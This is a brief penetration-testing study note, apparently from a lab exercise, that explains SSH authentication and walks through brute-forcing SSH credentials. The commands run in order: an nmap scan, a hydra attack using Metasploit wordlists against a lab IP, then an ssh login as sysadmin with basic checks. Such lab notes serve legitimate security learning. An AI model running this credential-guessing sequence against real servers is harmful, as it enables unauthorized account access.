 #### Exploiting SSH
- SSH (Secure Shell) is a remote administrator protocol that offers encryption and is the successor to telnet.
- It is typically used for remote access to servers and systems
- SSH uses TCP port 22 by default,however like other services,it can be configured to use any other open TCP port.
- SSH Authentication can be configured in two ways:
- - Username & password authentication
- - Username & password authentication
- - Key based authentication
- In the case of username and password authentication,we can perform a brute-force attack on the SSH server in order to identify legitimate credentials consequently gain access to the target system.
#### Practicle
- nmap -sV 192.156.211.3 [ for checking services ]
- hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/wordlists/common_passwords.txt 192.156.211.3 -t 4 ssh
- ssh sysadmin@192.156.211.3 [ for accessing sysadmin account through ssh ]
- whoami
- groups sysadmin [ to check which group sysadmin belongs to ]
